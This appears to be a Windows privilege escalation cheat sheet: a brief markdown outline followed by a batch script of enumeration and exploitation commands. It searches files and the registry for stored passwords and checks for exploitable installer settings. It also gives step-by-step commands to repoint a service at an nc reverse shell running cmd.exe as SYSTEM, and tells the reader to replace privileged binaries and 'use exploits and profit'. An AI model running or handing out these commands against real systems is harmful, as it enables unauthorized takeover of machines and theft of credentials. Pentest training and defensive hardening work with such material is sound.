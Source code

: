 # Windows Privilege Escalation

Windows privilege escalation commands.

### 1. SYSTEM INFORMATION + ACCOUNTS

```bash
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```vb
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano        
```

### 3. WINDOWS TASKS

### 4. QUICK WINS

### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

echo ################################################################ 
echo PART 2: ENUMERATE NETWORKING
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> INTERFACES
ipconfig /all

echo >>>>>>>>>>>>>>>>>>>> ROUTING TABLE
route print

echo >>>>>>>>>>>>>>>>>>>> ARP CACHE TABLE
arp -A

echo >>>>>>>>>>>>>>>>>>>> ACTIVE CONNECTIONS + FIREWALL RULES
netstat -ano
netsh firewall show state
netsh firewall show config

echo ################################################################
echo PART 3: ENUMERATE WINDOWS TASKS                        
echo ################################################################
echo NOTE: TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.

echo >>>>>>>>>>>>>>>>>>>> SCHEDULED TASKS (VERBOSE)
schtasks /query /fo LIST /v

echo >>>>>>>>>>>>>>>>>>>> RUNNING PROCESSES / ASSOCIATED SERVICES
tasklist /SVC

echo >>>>>>>>>>>>>>>>>>>> STARTED WINDOWS SERVICES
net start

echo >>>>>>>>>>>>>>>>>>>> 3RD-PARTY DRIVERS
driverquery

echo ################################################################
echo PART 4: QUICK WINS
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> USER IS AN ADMINISTRATOR
echo NOTE: If your user is part of the "Administrators" group, you can easily get to SYSTEM by reconfiguring a service or creating a scheduled task with SYSTEM privs.
net user %username%

echo >>>>>>>>>>>>>>>>>>>> MISSING WINDOWS PATCHES
echo NOTE: WMIC is mostly not available to non-Administrators.
echo (1) Find Windows privesc exploits.
echo (2) Grep for their existence (using KB numbers) among the list of installed patches.
echo (3) See if any exploits are missing from the patch list.
echo (4) Use exploits and profit.

wmic qfe get Caption,Description,HotFixID,InstalledOn

echo >>>>>>>>>>>>>>>>>>>> HARDCODED CREDENTIALS IN CONFIGURATION FILES
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x2
dir /s *pass* == *cred* == *vnc* == *.config*

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x3 (.xml .ini .txt)
findstr /si password *.xml *.ini *.txt

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x4 (in registry)
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

echo >>>>>>>>>>>>>>>>>>>> "AlwaysInstallElevated" SETTING
echo This setting allows users of any priv to install .msi files as SYSTEM.
echo Both values need to = 1 to exploit this.

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

echo ################################################################
echo PART 5: DEEP-DIVE WINDOWS SERVICES, FILE/FOLDER PERMISSIONS
echo ################################################################

echo NOTE: FOR RESTARTING SERVICES OR BINARIES, TRY VARIOUS METHODS SUCH AS:
echo => net start
echo => sc start
echo => mysql> RESTART; (using service commands to restart)

echo >>>>>>>>>>>>>>>>>>>> WINDOWS SERVICES (MANUAL ENUM)
echo (1) Query windows service
echo CMD: sc qc [servicename]
echo (2) Check required privilege level for each service using accesschk.exe
echo CMD: accesschk.exe -ucqv UPNPHOST
echo (3) Find services which allow access for "Authenticated Users" (logged-in users). Also check which group your user belongs to.
echo CMD: accesschk.exe -uwcqv "Authenticated Users" *
echo (4) Re-configure services to execute a root-shell.
echo STEP 1: Change binary path to execute a reverse-shell
echo CMD: sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
echo STEP 2: Change password for service
echo CMD: sc config upnphost obj= ".\LocalSystem" password= ""
echo STEP 3: Start the service and execute your reverse-shell
echo CMD: net start upnphost

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

echo >>>>>>>>>>>>>>>>>>>> FILE AND FOLDER PERMISSIONS

echo (1) Check for weak permissions "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>".
echo CMD: icacls [file or folder path] | cacls [file or folder path] | accesschk.exe -dqv [file or folder path]
echo (2) For binaries that load with SYSTEM privileges, replace with your own binary.

echo Finding all weak folder permissions per drive
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\

echo Finding all weak file permissions per drive
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.*

echo >>>>>>>>>>>>>>>>>>>> CHECK PATH SYSTEM VARIABLE (MANUAL ENUM)
echo NOTE: All non-default directories in root "C:\" will give WRITE access to the Authenticated Users group!!!

echo Look for non-default dirs: %path%

